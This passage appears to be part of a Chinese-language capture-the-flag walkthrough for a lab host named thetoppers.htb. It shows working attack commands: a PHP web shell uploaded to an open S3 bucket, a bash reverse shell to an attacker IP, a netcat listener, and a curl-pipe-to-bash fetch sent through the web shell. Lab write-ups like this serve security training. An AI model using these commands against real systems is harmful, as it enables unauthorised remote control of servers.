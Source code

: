```text
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

11、编写php 代码

```text
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

12、使用cp命令拷贝到s3的桶里

```text
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

13、查看上传结果

使用浏览器打开

```text
http://thetoppers.htb/shell.php?cmd=ls
```

14、配置反弹shell

先查询本机拨通的v-p/n的IP

```text
ifconfig tun0
```

15、编写shell脚本

```text
vim shell.sh
#!/bin/bash
bash-i >& /dev/tcp/10.10.16.60/1337 0>&1 #上一步查询的ip
```

16、配置nc监听

```text
nc -nvlp 1337
```

17、配置简易web

新开启shell终端，切换到shell.sh所在路径

```text
python3 -m http.server 8090
```

18、执行脚本

```text
http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.60:8090/shell.sh%20|%20bash
```

19、拿到shell
